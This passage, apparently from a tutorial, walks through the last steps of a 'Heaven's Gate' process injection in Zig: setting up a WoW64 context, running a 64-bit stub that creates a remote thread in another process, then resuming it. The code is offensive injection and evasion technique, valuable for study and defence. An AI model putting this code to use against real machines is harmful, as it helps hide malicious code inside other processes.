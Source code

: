 Now, we can prepare the WoW64 context and perfom the Heaven’s Gate injection.

```zig
    wow64_ctx.h.hProcess = process_handle.?;
    wow64_ctx.s.lpStartAddress = virtual_memory;
    wow64_ctx.p.lpParameter = null;
    // hThread is already zeroed from std.mem.zeroes

    print("[*] About to execute Heaven's Gate transition...\n", .{});

    // switch the processor to be 64-bit mode and execute
    // the 64-bit code stub that will create a remote thread
    // in the remote 64-bit process
    const result = fn_execute64(fn_function64, @ptrCast(&wow64_ctx));
    print("[*] Heaven's Gate transition completed, result: {d}\n", .{result});
    
    if (result == 0) {
        print("[-] Failed to switch processor context and execute 64-bit stub\n", .{});
        if (process_handle) |handle| {
            _ = CloseHandle(handle);
        }
        return success;
    }

    if (@intFromPtr(wow64_ctx.t.hThread) == 0) { // If thread handle is null
        print("[-] Failed to create remote thread under 64-bit mode\n", .{});
        if (process_handle) |handle| {
            _ = CloseHandle(handle);
        }
        return success;
    }
```

Finally, we need to resume the suspended thread and clean up the handle.

```zig
    if (ResumeThread(wow64_ctx.t.hThread) == 0) {
        print("[-] ResumeThread Failed with Error: {d}\n", .{GetLastError()});
        if (process_handle) |handle| {
            _ = CloseHandle(handle);
        }
        return success;
    }

    print("[+] Successfully injected thread ({x})\n", .{@intFromPtr(wow64_ctx.t.hThread)});

    success = 1;

    // Cleanup
    if (process_handle) |handle| {
        _ = CloseHandle(handle);
    }

    return success;
```

